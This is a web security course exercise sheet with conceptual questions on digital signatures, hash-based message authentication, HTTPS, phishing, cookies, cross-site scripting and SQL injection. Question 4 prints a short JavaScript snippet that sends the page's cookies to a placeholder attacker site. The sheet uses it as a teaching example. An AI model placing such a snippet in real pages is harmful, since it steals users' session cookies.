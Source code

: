 # Exercises sheet 3 Web Security

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that xwas not modified by Bill? Justify your answer.

3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer. 

4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:

`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful? Why or why not?

5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.

6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not? 

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server. 

8. Summarize the difference between persistent and non-persistent cross-site scripting attacks. 

9. Explain why input validation mitigates the risks of SQL injection attacks.
